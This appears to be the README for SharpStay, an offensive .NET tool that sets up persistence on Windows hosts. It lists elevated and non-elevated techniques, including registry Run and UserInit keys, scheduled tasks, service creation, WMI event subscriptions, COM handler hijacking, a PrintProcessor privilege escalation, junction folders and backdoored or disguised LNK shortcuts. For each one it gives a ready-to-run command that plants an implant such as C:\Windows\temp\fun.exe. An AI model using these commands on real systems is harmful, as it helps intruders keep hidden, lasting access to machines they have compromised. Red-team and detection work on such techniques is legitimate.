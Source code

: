 
### SharpStay - .NET Persistence 


#### Building
To compile open Visual Studio project and compile for release.

#### Options

  * Elevated Registry Keys
  * Elevated UserInit Registry Key
  * Elevated Scheduled Task
  * Elevated Create Service
  * Elevated WMI Event Subscription
  * Elevated PrintProcessor Persistence (and high integrity -> system LPE)

  * Non-Elevated InitMprLogonScript Registry Key
  * Non-Elevated Scheduled Task COM Handler Hijack
  * Non-Elevated Junction Folder


  * Misc Add Scheduled Task Action
  * Misc Startup Directory
  * Misc New LNK
  * Misc Backdoor LNK
  * Misc Task Names
  * Misc List Scheduled Tasks
  * Misc List Running Services
  * Misc Get Scheduled Task COM Handlers

```
Sharpstay.exe action=ElevatedRegistryKey keyname=Debug keypath=HKCU:Software\Microsoft\Windows\CurrentVersion\Run command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=UserRegistryKey keyname=Debug keypath=HKCU:Software\Microsoft\Windows\CurrentVersion\Run command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=UserInitMprLogonScriptKey command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=ElevatedUserInitKey command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=ScheduledTask taskname=TestTask command="C:\windows\temp\file.exe" runasuser=user1 triggertype=logon author=Microsoft Corp. description="Test Task" logonuser=user1
```

```
Sharpstay.exe action=ScheduledTaskAction taskname=TestTask command="C:\Windows\temp\fun.exe" folder="\\" actionid=ExecAction
```

```
Sharpstay.exe action=SchTaskCOMHijack clsid={a47af52a-27f9-4426-bd2b-727050712db1} dllpath="C:\windows\temp\fun.dll"
```

```
Sharpstay.exe action=CreateService servicename=TestService command="C:\Windows\temp\fun.exe"
```

```
Sharpstay.exe action=WMIEventSub command="C:\Windows\temp\fun.exe" eventname=Debugger attime=startup 
```

```
Sharpstay.exe action=PrintProcessor dllpath="C:\Windows\temp\printprocessor.dll"
```

```
Sharpstay.exe action=JunctionFolder dllpath="C:\windows\temp\fun.dll guid={a47af52a-27f9-4426-bd2b-727050712db1}
```

```
Sharpstay.exe action=NewLNK filepath="C:\users\admin\desktop" lnkname="Notepad.lnk" lnktarget="C:\Windows\temp\file.exe" lnkicon="C:\Windows\system32\notepad.exe"
```

```
Sharpstay.exe action=BackdoorLNK command="C:\Windows\temp\fun.exe" lnkpath="C:\users\user\desktop\Excel.lnk"
```

```
Sharpstay.exe action=ListTaskNames
```

```
Sharpstay.exe action=ListScheduledTasks
```

```
Sharpstay.exe action=ListRunningServices
```

```
Sharpstay.exe action=GetScheduledTaskCOMHandler
```

`cleanup=true` is an option for each persistence type.

Part of [StayKit](https://github.com/0xthirteen/StayKit)